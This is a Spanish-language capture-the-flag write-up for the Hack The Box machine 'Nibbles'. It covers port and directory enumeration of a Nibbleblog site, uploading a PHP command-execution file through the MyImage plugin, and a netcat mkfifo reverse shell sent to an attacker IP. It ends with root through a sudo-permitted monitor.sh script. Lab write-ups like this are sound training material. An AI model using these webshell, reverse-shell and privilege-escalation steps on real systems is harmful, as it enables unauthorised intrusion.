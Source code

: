 ```yaml
---
description: '✍️ Autor: Hack The Box🔍 Dificultad: Fácil  📅 Fecha de creación: 13/01/2018'
---
```


# Nibbles

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.129.12.162
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.12.162 
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.129.12.162
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos salga un mensaje.\
![](<../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Revisamos el código por si hay alguna información relevante.\


<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos muestra un directorio por lo que indagaremos ahí.

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://10.129.12.162/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hay dos archivos interesantes como `admin.php` y `README`.

```bash
curl http://10.129.12.162/nibbleblog/README
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hemos confirmado que la versión **4.0.3** está en uso, lo que sugiere que es probable que sea vulnerable al módulo de **Metasploit** (aunque podría tratarse de una página antigua del README). No observamos nada más relevante. Ahora, revisemos la página de inicio de sesión del portal de administración.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-07 095935.png" alt=""><figcaption></figcaption></figure>

Para usar el **exploit** mencionado, necesitaremos credenciales de administrador válidas. Probamos técnicas de omisión de autenticación y combinaciones comunes como **admin** y **admin**, sin éxito. Hay una opción para restablecer la contraseña, pero da un error de correo. Además, demasiados intentos rápidos activan un bloqueo con el mensaje **"Nibbleblog security error - Blacklist protection"**.

Volvamos a nuestros resultados de fuerza bruta en el directorio. Los códigos **200** muestran páginas accesibles, los **403** indican acceso prohibido y el **301** es una redirección permanente. Navegamos a **nibbleblog/themes/** y vemos que el listado de directorios está habilitado.

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al navegar a **nibbleblog/content**, encontramos subdirectorios interesantes: public, private y tmp. Explorando un poco, encontramos un archivo **users.xml** que confirma que el nombre de usuario es **admin**. También muestra direcciones IP en la lista negra. Podemos solicitar este archivo con **cURL** y formatear la salida **XML** usando **xmllint**.

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Confirmamos que **admin** es el usuario.

No hay otros puertos abiertos y no encontramos más directorios. Podemos confirmarlo realizando fuerza bruta adicional en directorios contra la raíz de la aplicación web.

```bash
gobuster dir -u http://10.129.12.162/ --wordlist /usr/share/dirb/wordlists/common.txt
```

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al revisar nuevamente todos los directorios expuestos, encontramos un archivo **config.xml**.

```bash
curl -s http://10.129.12.162/nibbleblog/content/private/config.xml | xmllint --format -
```

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al revisar el archivo, esperamos encontrar contraseñas, pero no obtenemos resultados. Sin embargo, vemos dos menciones de "**nibbles**" en el título del sitio y en la dirección de correo de notificación. Este también es el nombre de la máquina.&#x20;

Al realizar cracking de contraseñas offline con una herramienta como **Hashcat** o al intentar adivinar una contraseña, es importante considerar toda la información disponible. No es raro descifrar una contraseña (como la de la red inalámbrica de una empresa) usando una lista de palabras generada al rastrear su sitio web con una herramienta como **CeWL**.

```bash
cewl http://10.129.12.162/nibbleblog -w wordlist.txt
```

<figure><img src="../../.gitbook/assets/image (20) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Intentemos usar el plugin **MyImage** para cargar un fragmento de código **PHP** en lugar de una imagen. El siguiente fragmento se puede usar para probar la ejecución de código.

```bash
<?php system('id'); ?>
```

Ahora tenemos que averiguar dónde se subió el archivo si la carga fue exitosa. Volviendo a los resultados de fuerza bruta en los directorios, recordamos el directorio `/content`. Dentro de este, hay un directorio `plugins` y otro subdirectorio llamado `my_image`. La ruta completa es `http://<host>/nibbleblog/content/private/plugins/my_image/`. En este directorio, vemos dos archivos, `db.xml` e `image.php`, con una fecha de última modificación reciente, ¡lo que significa que nuestra carga fue exitosa! Ahora vamos a verificar si tenemos ejecución de comandos.

```bash
curl http://10.129.12.162/nibbleblog/content/private/plugins/my_image/image.php
```

<figure><img src="../../.gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

Parece que hemos obtenido ejecución remota de código en el servidor web, y el servidor Apache se está ejecutando en el contexto del usuario `nibbler`. Vamos a modificar nuestro archivo PHP para obtener una shell inversa y comenzar a explorar el servidor.

Vamos a editar nuestro archivo PHP local y subirlo nuevamente. Este comando debería proporcionarnos una shell inversa. Como se mencionó anteriormente en el Módulo, existen muchas hojas de trucos para shells inversas. Algunas muy buenas son [PayloadAllTheThings ](https://github.com/swisskyrepo/PayloadsAllTheThings)entre otras.

Utilicemos el siguiente one-liner de Bash para la shell inversa y añádelo a nuestro script PHP.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```

```bash
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.47 443 >/tmp/f"); ?>
```

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

Pinchamos en el fichero image.php.

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos Python3, lo cual nos permite obtener una shell más amigable escribiendo `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Al navegar a `/home/nibbler`, encontramos la bandera `user.txt` así como un archivo zip llamado `personal.zip`.

<figure><img src="../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Si accedemos a esa ruta, veremos que no existe. Por lo tanto, necesitaremos crear el directorio y el archivo:

```bash
cd /home/nibbler
mkdir -p personal/stuff
cd personal/stuff
echo "/bin/bash" > monitor.sh
chmod +x monitor.sh
sudo ./monitor.sh
```

Con estos pasos, obtendremos acceso root. Luego, al ir a `/root/root.txt`, podremos ver la bandera ROOT.

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>
